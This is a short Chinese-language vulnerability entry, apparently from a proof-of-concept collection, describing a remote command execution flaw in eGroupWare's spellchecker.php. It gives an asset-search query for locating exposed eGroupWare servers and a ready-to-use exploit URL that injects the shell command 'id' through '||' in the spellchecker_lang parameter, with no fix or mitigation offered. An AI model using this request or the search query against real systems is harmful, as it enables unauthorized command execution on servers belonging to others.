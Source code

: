 # eGroupWare spellchecker.php 远程命令执行漏洞

## 漏洞描述

*eGroupWare*是一个多用户，在以PHP为基础的API上的定制集为基础开发的，以WEB为基础的工作件套装，其中 spellchecker.php 文件中存在命令执行漏洞

## 漏洞影响

<a-checkbox checked>eGroupWare</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EGROUPWARE-产品"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629087827840-2daaeca6-8c17-48dd-bbb4-5a7f4746b181.png)

验证POC

```bash
/egroupware/phpgwapi/js/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php?spellchecker_lang=egroupware_spellchecker_cmd_exec.nasl%7C%7Cid%7C%7C
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629088046554-f44013d6-babd-4708-bd9b-ce93b4fbd12a.png)


